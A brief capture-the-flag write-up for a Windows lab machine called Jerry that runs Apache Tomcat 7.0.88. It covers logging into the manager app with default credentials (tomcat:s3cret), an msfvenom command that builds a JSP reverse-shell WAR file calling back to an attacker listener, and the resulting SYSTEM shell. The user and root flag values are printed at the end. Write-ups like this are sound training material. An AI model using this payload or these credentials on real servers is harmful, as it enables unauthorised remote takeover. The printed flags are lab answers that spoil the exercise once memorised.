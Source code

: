 # Jerry
## IP: 10.10.10.95
## OS: Windows

Nmap scan:

```
open port 8080
```

Port 8080 was running apache tomcat 7.0.88.
I found an exploit for this version but it didn't worked.

In the homepage, there was manager app button. I clicked on it and it was asking for credentials.
I searched online for any default credentials.

```
tomcat:s3cret
```

I logged in as tomcat user and found that I can upload a .war file and it will get executed.

I used msfvenom and used jsp_shell.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f war > shell.war
```

Uploaded the file and started a netcat listener on my machine.

In the manager page, our file was listed. When I clicked on the filename, I got reverse shell as authority/system.

Flags were present in C:\Users\Administrator\Desktop\flags.

```
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```
